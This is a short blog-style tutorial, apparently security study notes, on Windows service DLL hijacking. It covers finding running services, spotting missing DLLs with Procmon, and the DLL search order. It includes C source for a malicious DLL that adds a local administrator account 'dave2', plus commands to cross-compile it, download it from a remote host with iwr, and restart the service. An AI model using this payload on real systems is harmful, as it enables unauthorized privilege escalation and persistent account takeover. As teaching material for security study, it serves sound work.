 ```yaml
---
layout: post
title: Windows Service DLL Hijacking
titledate: 09/15/23
tags: ["infosec","offsec", "privesc", "powershell", "exploit", "dll"]
---
```


#### dll hijacking

if we are unable to replace the binary bc of a permission issue we may be able to work with its dlls

first let's find the running processes

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

we can run procmon to display the loaded dlls of the binary we are interested in, however, we need admin creds to run procmon

depending on the application, if necessary we can copy the binary to our local system to execute in a different administrator environment to see which dlls we have available to us

in Procmon -> Filter -> Filter -> Proces Name is -> proc 'include'

to get our process to register in procmon

    PS > Restart-Service proc

looking at the procmon results we see a lot of name not found for a specific dll

with the missing dll we can attempt to write a dll to the dll search order path

    1. The directory from which the application loaded.
    2. The system directory.
    3. The 16-bit system directory.
    4. The Windows directory. 
    5. The current directory.
    6. The directories that are listed in the PATH environment variable.

dll main can be optional and executed when processes or threads attach to and execute the dll - 

if a dll does not contain a dll main function then that dll only provides resources

    PS > $env:path

checking the environment path 

```cpp
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
above is a MS example of a DLL that demonstrates the four cases in which a dll is used

since our example is trying to load a dll we will use that case

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    //i = system ("net user daveadmin password123!"); //to change a current users password.
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

now we cross compile our cpp code to the name of the dll we want to use

    $ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

copy the binary over to the correct directory

    PS C:\Users\me\dlldirectory > iwr -uri http://192.168.1.1/myDLL.dll -Outfile myDLL.dll

restart the service 

    PS > Restart-Service BetaService
